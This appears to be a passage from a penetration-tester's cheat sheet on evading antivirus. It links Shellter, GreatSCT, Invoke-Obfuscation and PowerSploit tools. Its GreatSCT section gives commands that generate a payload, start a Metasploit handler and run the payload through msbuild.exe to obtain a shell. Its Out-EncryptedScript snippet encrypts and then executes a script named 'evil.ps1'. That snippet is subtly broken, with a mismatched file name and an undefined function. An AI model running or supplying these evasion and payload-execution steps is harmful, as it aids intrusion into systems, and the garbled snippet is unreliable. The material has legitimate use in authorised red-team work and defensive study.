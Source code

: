 


## Shelter

* [https://www.shellterproject.com/](https://www.shellterproject.com/)




## GreatSCT

Install and generate a payload:

```
$ git clone https://github.com/GreatSCT/GreatSCT ~/tools/GreatSCT
$ cd ~/tools/GreatSCT/setup
$ ./setup.sh
$ cd .. && ./GreatSCT.py
...generate a payload...
$ ls -la /usr/share/greatsct-output/handlers/payload.{rc,xml}

$ msfconsole -r /usr/share/greatsct-output/handlers/payload.rc
```

Exec with `msbuild.exe` and get a shell:

```
PS > cmd /c C:\Windows\Microsoft.NET\framework\v4.0.30319\msbuild.exe payload.xml
```

* [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)
* [https://www.youtube.com/watch?v=krC5j1Ab44I&t=3730s](https://www.youtube.com/watch?v=krC5j1Ab44I&t=3730s)




## Invoke-Obfuscation

* [https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
* [https://www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide](https://www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide)




## Out-EncryptedScript.ps1

* [https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-EncryptedScript.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-EncryptedScript.ps1)
* [https://powersploit.readthedocs.io/en/latest/ScriptModification/Out-EncryptedScript/](https://powersploit.readthedocs.io/en/latest/ScriptModification/Out-EncryptedScript/)

```
PS > Out-EncryptedScript .\script.ps1 $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) s4lt -FilePath .\evil.ps1
PS > [string] $cmd = gc .\evil
PS > $dec = de "Passw0rd!" s4lt
PS > Invoke-Expression $dec
```
